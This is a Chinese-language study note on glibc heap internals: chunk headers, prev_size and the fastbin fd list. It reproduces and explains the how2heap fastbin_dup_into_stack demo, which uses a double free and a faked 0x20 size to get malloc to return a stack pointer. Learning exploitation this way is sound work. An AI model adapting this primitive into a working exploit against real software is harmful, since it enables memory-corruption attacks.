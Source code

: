 
### tips：
**prev_size**, 如果该 `chunk` 的 **物理相邻的前一地址 chunk（两个指针的地址差值为前一 chunk 大小）** 是空闲的话，那该字段记录的是前一个 `chunk` 的大小 (包括 `chunk` 头)。否则，该字段可以用来存储物理相邻的前一个 chunk 的数据。**这里的前一 `chunk` 指的是较低地址的 `chunk`** 。

### 前提要点一：

通过`malloc`申请内存时，返回的地址通常是指向`chunk`结构中用户数据区域的起始地址。具体来说：

1. **`malloc`返回的地址指向用户数据区域**：  
   根据和，`malloc`申请的内存被称作`chunk`，其结构包含两个部分：`chunk头`和`用户数据区`。当调用`malloc`时，返回的地址是用户数据区的起始地址，而`chunk头`则包含管理信息（如前一个块的大小、当前块的大小等）。因此，`malloc`返回的地址直接指向用户数据区域，而不是整个`chunk`结构。

2. **`chunk头`的作用**：  
   `chunk头`主要用于管理堆内存的分配和释放。例如，`fd`和`bk`指针分别指向相邻的前一个和后一个块，用于形成双向链表，以便于内存的合并和管理。此外，`prev_size`字段记录了前一个块的大小，而`size`字段记录了当前块的大小。

3. **申请的地址与实际分配的关系**：  
   在某些情况下，如果申请的大小较小且正好匹配fastbin中的某个块，则该块会被直接分配给用户使用。此时，返回的地址即为该块的用户数据区域起始地址。如果块被分配到其他管理列表（如unsorted bin或small bin），则需要进一步处理，但最终返回的地址仍然指向用户数据区域。

4. **fastbin中的特殊情况**：  
   如果申请的大小正好匹配fastbin中的某个块，则这块内存会被直接分配并返回。此时，fastbin中的块已经处于空闲状态，其`fd`和`bk`指针可能为0或指向其他块。因此，在这种情况下，返回的地址仍然是用户数据区域的起始地址。

综上，当你通过`malloc`申请内存时，返回的地址指向的是`chunk`结构中用户数据区域的起始地址，而不是整个`chunk`结构。这部分内存由用户直接控制和使用。


### 前提要点二：

在 `fastbin`中 ，每个 `free chunk`都有一个 `fd`（forward）指针 ，它用于链接到下一个空闲 `free chunk` 。具体来说 ， `fd` **指向下一个 `free chunk`的头** ，而不是用户数据区域 。具体来说：

1. **`fast bin`的结构**  
   `fast bin`是一个单向链表 ，每个 `free chunk`通过 `fd`指针链接到下一个 `free chunk` 。链表的头部是最近释放的空闲 `free chunk` ，尾部是第一个释放的空闲 `free chunk` 。

2. **`free chunk`的结构**  
   当 `free chunk`处于空闲状态时 ，它的头部包含两个重要字段 ：  
   - **`prev_size`** ：前一个 `free chunk`的大小 （如果前一个 `free chunk`正在使用中 ，则此字段无效 ）。  
   - **`size`** ：当前 `free chunk`的大小 。  
   紧接着这两个字段之后就是 **`fd`** ，它 **指向下一个空闲 `free chunk`的头** 。

3. **`malloc()`返回的用户数据区域**  
   当调用 `malloc()`时 ，返回给用户的地址是 **用户数据区域的起始地址** ，而不是整个 `free chunk`的头 。因此 ，用户无法直接访问 `free chunk`的头或 `fd`字段 。

综上，在 `fast bin`中 ，每个空闲 `free chunk`的头包含一个 **`fd`** ，它 **指向下一个空闲 `free chunk`的头** 。这种设计使得 `malloc()`能够快速找到并分配合适大小的空闲内存块  。

## how2heap的源码分析

```c
#include <stdio.h>
#include <stdlib.h>
int main()

{
    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
           "returning a pointer to a controlled location (in this case, the stack).\n");

    unsigned long long stack_var;

    fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

  

    fprintf(stderr, "Allocating 3 buffers.\n");

    int *a = malloc(8);

    int *b = malloc(8);

    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);
    fprintf(stderr, "Freeing the first one...\n");

    free(a);
    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);

    // free(a);
    fprintf(stderr, "So, instead, we'll free %p.\n", b);

    free(b);

  

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);

    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
        "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);

    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);

    stack_var = 0x20;

    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);

    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

        fprintf(stderr, "this is sizeof(d):%d\n", sizeof(d));
    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));

}
```
![[Pasted image 20250409151658.png]]

步骤流程：

首先申请三个malloc(0x8),然后依次free前两个chunk，再free(a)就会实现double,后面我们就需要通过double free进行use after free的利用了。
当我们实现double free 的时候就会像第一个图的第三个fastbin 的结构一样了。我们现在需要想办法去将chunk的地址搬到stack上去，这就需要我们需要将chunk a 的fd指针指向stack上的地址，这样才可以将这个fake_chunk申请出来。

源码中定义了一个stack的地址用来装饰成fake_chunk的，我们可以看到申请的stack的地址内存的是0x20字节，为什么要填0x20字节呢？这是因为我们如果需要chunk a 的fd指针申请出fake_chunk的话就需要进行一个fastbin脱链的检查，就是检查要申请的这块地址的size是否是和这个fastbin链表的大小是一样的，这个链表存的都是0x20的大小，所以我们需要也构造一个0x20的大小，然后我们需要通过double free申请出来chunk a将其地址（malloc出的地址也就是fd指针位置）改为fake_chunk的pre_size的地址，也就是元头部首部数据。这样就可以达到下图第四个fastbin的结构的效果了。

![[Pasted image 20250409160920.png]]
![[Pasted image 20250409161013.png]]
这时我们将将chunk b,chunk a,fake_chunk依次申请出来就实现了heap地址到stack地址的迁移了。
![[Pasted image 20250409153102.png]]

![[Pasted image 20250409160300.png]]



也挺好的文章：[how2heap—glibc 2.23—fastbin_dup_into_stack_2.23 fastbin-CSDN博客](https://blog.csdn.net/xy_369/article/details/131036856)